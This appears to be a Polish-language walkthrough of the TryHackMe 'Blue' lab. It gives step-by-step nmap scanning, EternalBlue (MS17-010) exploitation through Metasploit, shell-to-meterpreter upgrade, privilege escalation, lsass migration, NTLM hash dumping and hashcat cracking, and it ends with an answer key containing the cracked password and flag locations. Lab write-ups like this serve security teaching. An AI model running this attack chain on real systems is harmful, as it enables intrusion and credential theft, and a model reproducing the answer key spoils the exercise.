 1. Na początku musimy klasycznie połączyć się z VPN za pomocą OpenVPN.
Wchodzimy na nasz [profil](https://tryhackme.com/access) pobieramy plik do połączanienia wchodzimy w "/Downloads" i wpisujemy w nowym
terminalu:

``` $ openvpn <Nazwa>.ovpn ```


2. Po tym otwieramy zadanie nr. 1 i odpalamy instancję ( Deploy ).

3. Po tym wszystkim możemy powoli zaczynać. Pierwsze co robimy to skanujemy maszyne:

``` $ nmap -Pn <Adress Ip> ```

Skanowanie pokazuje nam usługi i porty, na których dzialają. Spróbujmy dowiedzieć się o dystrybucji.

```$ nmap -A -T 5 <Adress Ip> -vv```

Widzimy, że maszyna jest postawiona na Windows 7.

4. Teraz musimy się dowiedzieć na co jest podatna maszyna ( ms??-??? ). Więc wpisujemy:

```$ nmap --script vuln <Adress Ip> -vv```

I widzimy smb-vuln-ms17-010 ( [ms17-010](https://www.exploit-db.com/exploits/42315) ).

5. Teraz spróbujmy uzyskać dostęp na maszynie.

6. Odpalamy [Metasploit](https://www.metasploit.com/):

```$ msfconsole```

Szukamy exploit'a na tę podatność w msf:

```$ search ms17–010```

Pokazuje nam się lista dostępnych ataków. My z racji, że znamy dystrybucję wybieramy tego na Windows 7.

``` $ use 2 ``` (windows/smb/ms17_010_eternalblue)

7. Musimy się dowiedzieć jakie opcje musimy uzupełnić do ataku:

```$ show options```

Widzimy RHOST, więc go uzupełniamy:

```$ set RHOSTS <Adress Ip>```

I uruchamiamy skrypt:

```$ run```

Powinniśmy uzyskać dostęp do konsoli!

W razie czego upewnij się że exploit dziąła poprawnie. Kliknij enter i powinneś widzieć shella DOS.
Spróbuj wejść w tło shell'a (CTRL + Z). Jeżeli to się nie uda może być konieczne ponowne uruchomienie maszyny (deploy), lecz przed tym spróbuj znów uruchomić skrypt i zobaczyć czy działa.

Nacisnij enter.

8. Jeżeli jeszcze nie wszedłeś do tła shella (CTRL + Z). Dowiedz się w internecie jak
przekonwertować shell'a na meterpretera w metasploit. Jaka jest nazwa modułu post, którego użyjemy.
( Dokładna ścieżka, podobna do nazwy użytego exploita )

9. Wrócmy najpierw do metasploita:

```$ background```

Zweryfikujmy czy sesja nadal istnieje:

```$ session```

Powinna nam się pokazać informacja o sesji jej typie itp.

10. Spróbujmy zmienić shella na meterpretera:

```$ use multi/manage/shell_to_meterpreter```

Uzupełnij wszystkie brakujące opcje aby przechwycić shell'a:

```
$ set LPORT 1234
$ set SESSION 1
```

Uruchom:

```$ run```

Jeżeli to nie działa spróbuj znów zrobić shell'a.

11. Zobaczmy istniejące sesje:

```$ session```

Powinniśmy zobaczyć drugą sesje, która ma w typie meterpreter.

Spróbujmy do niej się podłączyć:

```$ sessions 2```

Powinniśmy widzieć konsole meterpretera.

12. Sprawdźmy czy eskalowaliśmy do NT AUTHORITY\SYSTEM. Uruchom te polecenie w tym celu:

```$ getsystem```

Możemy swobodnie zmieniać powłoki z shell do meterpretera.

Sprawdźmy kim jesteśmy:

```
$ shell
$ whoami
```

Wróćmy do meterpretera ( CTRL + Z ).

13. To że jesteśmy systemem nie oznacza, że nasz proces też nim jest. Sprawdźmy liste działająch procesów:

```$ ps```

I zapamiętajmy id procesu (PID).

14. Zmigrujmy sobie proces lsass.exe. Mając meterpretera wpiszmy:

```$ migrate 708```

15. Zrzućmy (dump) hasła nie podstawowych użytkowników do późniejszego ich złamania.

W naszym podwyższonym shell'u (meterpreter) uruchomy polecenie:

```$ hashdump```

Spowoduje to dumpowanie wszystkich hashy haseł na komputerze jeżeli mamy do tego odpowiednie uprawnienia.

Który użytkownik nie jest defaultowy?

16. Skopiuj hashe do pliku do złamania. ( to hashe [NTLM](https://en.wikipedia.org/wiki/NT_LAN_Manager)  wklej je tak jak widzisz w konsoli ).

Zorganizujmy hash do łamania. (user:hash <-- ostatni "zlepek liter" w lini po : i przed ::: )

np.
```Administrator:31d6cfe0d16(...)```

17. Ja użyje hashcat'a do złamania hashy.

``` $ hashcat -a 0 -m 1000 <NazwaPlikuZHashami>.txt <SłownikDoŁamania np. rockyou.txt>.txt --force --username --show ``` <-- show dopiero po złamaniu

Po chwili powinniśmy uzyskać hasło do Jon'a (alqfna22)

18. Teraz poszukajmy flag:

1) Pierwsza znajduje się w lokacji C:\flag1.txt

2) Następna w C:\Documents and Settings\Jon\Documents\flag3.txt

3) A ostatnia w C:\Windows\System32\config\flag2.txt

Każdą flagę można pokazać za pomocą ```type```
np. ``` type flag1.txt ```

19. To powinno być na tyle. Powodzenia!

// Uzupełnienie rubryk.

Zadanie 1.

2) 3

3) ms17-010

Zadanie 2.

2) exploit/windows/smb/ms17_010_eternalblue

3) RHOSTS

Zadanie 3.

1) post/multi/manage/shell_to_meterpreter

2) SESSION

Zadanie 4.

1) Jon

2) alqfna22

Zadanie 5.

1) Wpisz flage numer 1

2) Wpisz flage numer 2

3) Wpisz flage numer 3 

